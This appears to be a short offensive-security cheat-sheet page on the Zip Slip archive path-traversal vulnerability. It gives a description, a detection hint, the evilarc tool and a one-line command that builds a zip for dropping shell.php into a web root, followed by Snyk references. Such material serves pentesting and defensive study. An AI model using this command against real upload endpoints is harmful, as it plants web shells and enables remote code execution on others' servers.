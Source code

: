 # Zip Slip

> The vulnerability is exploited using a specially crafted archive that holds directory traversal filenames (e.g. ../../shell.php). The Zip Slip vulnerability can affect numerous archive formats, including tar, jar, war, cpio, apk, rar and 7z. The attacker can then overwrite executable files and either invoke them remotely or wait for the system or user to call them, thus achieving remote command execution on the victim’s machine. 

## Summary

- [Detection](#detection)
- [Tools](#tools)
* [Exploits](#exploits)
  * [Basic Exploit](#basic-exploit)
- [Additional Notes](#additional-notes)

## Detection

- Any zip upload page on the application

## Tools

- evilarc [https://github.com/ptoomey3/evilarc](https://github.com/ptoomey3/evilarc)

## Exploits

### Basic Exploit

```python
python evilarc.py shell.php -o unix -f shell.zip -p var/www/html/ -d 15
```

### Additional Notes
- For affected libraries and projects, visit https://github.com/snyk/zip-slip-vulnerability

## References

- [Zip Slip Vulnerability - Snyk Ltd, 2019](https://snyk.io/research/zip-slip-vulnerability)
- [Zip Slip - snyk, 2019](https://github.com/snyk/zip-slip-vulnerability)
